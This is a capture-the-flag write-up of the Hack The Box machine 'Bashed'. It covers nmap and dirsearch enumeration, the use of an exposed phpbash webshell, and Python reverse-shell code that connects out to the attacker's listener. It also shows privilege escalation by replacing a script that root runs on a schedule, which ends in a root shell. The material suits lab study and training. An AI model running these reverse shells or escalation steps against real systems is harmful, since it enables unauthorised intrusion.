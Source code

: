 ## ------------------>> Bashed <<---------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.68 -p-
----------

    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-20 19:50 EDT
    Nmap scan report for 10.10.10.68
    Host is up (0.17s latency).
    Not shown: 65534 closed ports
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Arrexel's Development Site

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 579.17 seconds

// Navigate to http://10.10.10.68/

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Bashed/1.png)

// Lets search for some directories or files with [dirsearch](https://github.com/maurosoria/dirsearch)

    $ python3 dirsearch.py -u http://10.10.10.68/ -t 150
------

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 150 | Wordlist size: 10903

    Output File: /home/r4r3/Desktop/HTB/main-Tools/web/directories_scanners/dirsearch/reports/10.10.10.68/_21-08-20_19-55-15.txt

    Error Log: /home/r4r3/Desktop/HTB/main-Tools/web/directories_scanners/dirsearch/logs/errors-21-08-20_19-55-15.log

    Target: http://10.10.10.68/

    ...
    [19:55:25] 200 -    8KB - /about.html
    [19:55:30] 200 -    0B  - /config.php
    [19:55:30] 200 -    8KB - /contact.html
    [19:55:31] 200 -    1KB - /dev/
    [19:55:33] 200 -    2KB - /images/
    [19:55:33] 200 -    8KB - /index.html
    [19:55:33] 200 -    3KB - /js/
    [19:55:35] 200 -  939B  - /php/
    [19:55:37] 403 -  300B  - /server-status/
    [19:55:40] 200 -   14B  - /uploads/

// we got some interesting directories the most interesting its /dev/

// Navigate to http://10.10.10.68/dev/

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Bashed/2.png)

// Clicking on 'phpbash.php' gives us a webshell ! and user flag !

![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Bashed/3.png)

### ----Privelleges Escalation-------

// After verify we got python on the target system

    www-data@bashed:/var/www/html/dev# which python

    /usr/bin/python

// We can get a better shell with python(from [here](https://www.pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet))

// First open a listiner

    $nc -lvnp 1444
    listening on [any] 1444 ...
------

    $ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.244",1444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

// And we got a shell

    $ nc -lvnp 1444
    listening on [any] 1444 ...
    connect to [10.10.16.244] from (UNKNOWN) [10.10.10.68] 58676
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    
// Checking which sudo permission have www-data we can see that he can run scriptmanager

    $ sudo -u scriptmanager /bin/bash

    id
    uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)

// Now we got shell as scriptmanager, searching the system i found directory called 'scripts' that its user own in '/'

    $ pwd
    /

    $ ls -al
    total 88
    ...
    drwxr-xr-x  18 root          root            500 Aug 20 16:49 run
    drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
    drwxrwxr--   2 scriptmanager scriptmanager  4096 Dec  4  2017 scripts
    drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
    ...

    $ cd scripts

    $ ls
    test.py
    test.txt

// In /scripts we have 2 files (test.py & test.txt)

    $ cat test.py
    f = open("test.txt", "w")
    f.write("testing 123!")
    f.close

    $ cat test.txt
    testing 123!

// Checking for file permissions we can see that root own test.txt file

    $ ls -al
    total 16
    drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
    drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
    -rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
    -rw-r--r--  1 root          root            12 Aug 20 17:33 test.txt

// Also checking after few minutes i can see that file is modify himself

    $ ls -al
    total 16
    drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
    drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
    -rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
    -rw-r--r--  1 root          root            12 Aug 20 17:33 test.txt
    $ ls -al
    total 16
    drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
    drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
    -rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
    -rw-r--r--  1 root          root            12 Aug 20 17:35 test.txt

// Lets try to modify the test.py file to give us a shell as root

// first we will make reverse shell file with python(found one [here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet))

    $ cat exploit.py

    import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.24",1337)) //change this
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
    
// For upload the file we will open http python server

    $ python3 -m http.server 9001
    Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...

// Open a listiner in another terminal

    $nc -lvnp 1445
    listening on [any] 1445 ...

// And upload the exploit.py with wget command

    $ wget http://10.10.16.244:9001/exploit.py

// Wait a few seconds, and we got a root shell and the flag !

    $ nc -lvnp 1445
    
    listening on [any] 1445 ...
    connect to [10.10.16.244] from (UNKNOWN) [10.10.10.68] 48982
    /bin/sh: 0: can't access tty; job control turned off
    # id 
    uid=0(root) gid=0(root) groups=0(root)
    # cat root/root.txt    
    cat: root/root.txt: No such file or directory
    # cat /root/root.txt
    cc4f0afe....................

